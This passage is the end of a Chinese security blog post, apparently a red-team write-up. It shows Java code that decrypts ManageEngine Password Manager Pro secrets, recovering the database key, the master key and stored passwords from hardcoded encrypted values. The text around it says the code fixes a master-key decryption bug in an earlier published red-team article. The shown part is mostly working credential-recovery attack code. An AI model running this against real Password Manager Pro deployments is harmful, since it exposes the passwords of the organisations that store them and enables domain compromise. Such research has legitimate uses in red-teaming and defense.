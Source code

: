 ```
        PimpMyPMP klass = new PimpMyPMP();
        try {
            String database_password = "fCYxcAlHx+u/J+aWJFgCJ3vz+U69Uj4i/9U=";
            String database_key = klass.decryptDatabasePassword(database_password);
            System.out.print("Database Key: ");
            System.out.println(database_key);

            String pmp_password = "60XVZJQDEPzrTluVIGDY2y9q4x6uxWZanf2LUF2KBCM=";
            String notesdescription = "D8z8c/cz3Pyu1xuZVuGaqI0bfGCRweEQsptj2Knjb/U=";
            String master_key = klass.decryptPassword(notesdescription, pmp_password);

            System.out.print("Master Key: ");
            System.out.println(master_key);

            String endata = "PcQIojSp6/fuzwXOMI1sYJsbCslfuppwO+k=";
            String password = klass.decryptPassword(endata,pmp_password);
            System.out.print("Passwd: ");
            System.out.println(password);
        } catch (Exception e){
            System.out.println("Fail!");
        }
    }
}
```

代码修正了https://www.shielder.com/blog/2022/09/how-to-decrypt-manage-engine-pmp-passwords-for-fun-and-domain-admin-a-red-teaming-tale/中在解密MasterKey时的Bug，更具通用性


## 0x04 小结
---

本文介绍了Password Manager Pro数据解密的完整方法，修正了https://www.shielder.com/blog/2022/09/how-to-decrypt-manage-engine-pmp-passwords-for-fun-and-domain-admin-a-red-teaming-tale/中在解密MasterKey时的Bug，更具通用性。

---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)
